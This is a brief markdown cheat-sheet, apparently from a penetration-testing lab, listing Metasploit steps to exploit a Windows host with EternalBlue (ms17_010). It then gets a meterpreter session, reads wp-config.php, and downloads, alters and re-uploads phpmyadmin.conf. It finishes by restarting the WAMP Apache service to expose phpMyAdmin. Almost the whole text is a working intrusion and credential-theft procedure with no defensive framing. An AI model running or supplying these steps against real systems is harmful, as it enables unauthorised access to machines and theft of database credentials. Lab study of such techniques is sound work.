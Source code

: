
#### How to find phpmyadmin password from eternablue
- search eternalblue
- use exploit/windows/smb/ms17_010_eternalblue
- set RHOSTS 
- run
- this get us meterpreter sessions
- cd /
- ls 
- cd wamp\\
- cd www\\
- cd wordpress\\
- cat wp-config.php
- cd ..
- cd alias\\
- cat phpmyadmin.conf
- downlaod phpmyadmin.conf[in meterpreter sessions]
- modify it
- upload phpmyadmin [in meterpreter session]
- shell [ to get windows cmd]
- net stop wampapache [this will stop the phpmyadmin services ]
-  net start wampapache [start the phpmyadmin ]
- then we can access phpmyadmin from browser
